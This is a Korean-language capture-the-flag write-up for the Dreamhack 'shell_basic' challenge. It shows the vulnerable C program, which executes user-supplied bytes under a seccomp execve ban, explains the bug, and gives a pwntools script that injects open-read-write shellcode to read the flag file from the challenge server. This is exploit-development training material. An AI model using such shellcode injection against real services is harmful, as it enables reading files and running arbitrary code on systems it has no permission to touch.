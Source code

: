 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode에 데이터를 고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',10732) 

#공격 대상 아키텍쳐는 x86-64
context.arch = 'amd64' 

#flag 위치와 이름
path = "/home/shell_basic/flag_name_is_loooooong"

#셸코드 선언
code = ''

#shellcraft를 이용하여 open system call의 셸코드를 사용.
code += shellcraft.open(path,0 ,0)

#shellcraft를 이용하여 read system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd의 값으로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다.
#주의해야할 점은 buffer 값으로 (rsp-count)가 아니라 rsp 값을 대입해야한다.
code += shellcraft.read('rax','rsp',0x1000)

#shellcraft를 이용하여 write system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd 값으로 1(표준 출력), 나머지 인수는 read와 같음.
code += shellcraft.write(1,'rsp',0x1000)

#출력데이터 받아서 출력.
print(p.recv())

#작성한 셸코드를 기계어로 변환 후 전송
p.send(asm(code))

#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
print(p.recvuntil('}'))
```
